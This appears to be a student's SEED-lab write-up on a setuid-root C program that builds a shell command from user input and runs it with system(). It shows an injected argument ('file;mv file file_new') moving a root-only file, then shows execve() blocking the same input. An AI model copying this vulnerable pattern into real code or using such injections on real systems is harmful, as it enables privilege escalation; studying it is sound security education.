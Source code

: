 ```c
   int q = 0;
   if (q == 0)
   {
      char *command = malloc(strlen(v[0]) + strlen(v[1]) + 2);
      sprintf(command, "%s %s", v[0], v[1]);
      system(command);
  }
  else execve(v[0], v, 0);
  return 0 ;
}
```

(a) Set q = 0 in the program. This way, the program will use `system()` to invoke the command. Is this program safe? If you were Bob, can you compromise the integrity of the system? For example, can you remove any file that is not writable to you?

```sh
seed@ubuntu:/bin$ ls -al /bin/sh
lrwxrwxrwx 1 root root 3 Aug 8 04:15 /bin/sh -> zsh
seed@ubuntu:/bin$ cd /tmp/
seed@ubuntu:/tmp$ sudo su
root@ubuntu:/tmp# gcc -o SEC SEC.c 
root@ubuntu:/tmp# chmod u+s SEC
root@ubuntu:/tmp# exit
exit
seed@ubuntu:/tmp$ ls -al file SEC
-rwx------ 1 root root    0 Aug  8 04:25 file
-rwsr-xr-x 1 root root 7310 Aug  8 04:23 SEC
seed@ubuntu:/tmp$ ./SEC "file;mv file file_new"
This file only root can read, write and move!!!
seed@ubuntu:/tmp$ ls file*
file_new
```

The `SEC` file is not safe, Bob can read, write or move files which only root user can run.

(b) Set q = 1 in the program. This way, the program will use `execve()` to invoke the command. Do your attacks in task (a) still work? Please describe and explain your observations.

```sh
root@ubuntu:/tmp# gcc -o SEC2 SEC.c 
root@ubuntu:/tmp# chmod u+s SEC2 
root@ubuntu:/tmp# exit
exit
seed@ubuntu:/tmp$ ./SEC2 "file;mv file file_new2"
/bin/cat: file;mv file file_new2: No such file or directory
seed@ubuntu:/tmp$ ls file*
file
```

When modify q to 1, the attack can't make sense. The reason why the before attack effectively is because`system()` call `/bin/sh`, which links `zsh`. After running `cat file` with root privilege, it runs `mv file file_new`. But when q = 1, `execve()` will regard `file;mv file file_new2` as a folder name, so system will prompt there have no the file.
